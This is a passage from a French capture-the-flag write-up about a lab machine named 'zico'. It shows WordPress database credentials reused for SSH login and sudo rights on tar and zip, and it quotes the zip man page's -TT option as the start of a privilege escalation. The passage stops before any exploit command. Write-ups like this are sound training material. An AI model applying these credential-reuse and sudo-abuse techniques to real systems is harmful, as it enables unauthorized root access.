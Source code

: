 Le dossier de l'utilisateur *zico* est lisible et bourré de sources de webapps. Je recherche dans le listing les fichiers avec config dans le nom. Assez rapidement je me tourne vers le *wp-config* (fichier de configuration de *Wordpress*)  

Monkey get a shell
------------------

On trouve un mot de passe dans le fichier de configuration qui est réutilisé pour le compte SSH :  

```php
/** MySQL database username */
define('DB_USER', 'zico');

/** MySQL database password */
define('DB_PASSWORD', 'sWfCsfJSPV9H3AmQzw8');
```

```plain
zico@zico:~$ id
uid=1000(zico) gid=1000(zico) groups=1000(zico)
```

Malheureusement le mot de passe cassé plus tôt (*34kroot34*) n'est pas réutilisé pour le compte root.  

Monkey g0t root
---------------

L'utilisateur zico a l'autorisation de lancer deux programmes d'archivage avec les droits root :  

```plain
zico@zico:~$ sudo -l
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip
```

Il y a t-il un moyen de faire exécuter des commandes à l'un de ces deux programmes ? La page de manuel de zip nous donne une solution :  

```plain
-TT cmd
--unzip-command cmd
        Use command cmd instead of 'unzip -tqq' to test an archive when the -T option is used.  On Unix, to use a copy of unzip in the current directory instead  of  the  standard system unzip, could use:

        zip archive file1 file2 -T -TT "./unzip -tqq"

        In  cmd, {} is replaced by the name of the temporary archive, otherwise the name of the archive is appended to the end of the command.  The return code is checked for success (0 on Unix).
```
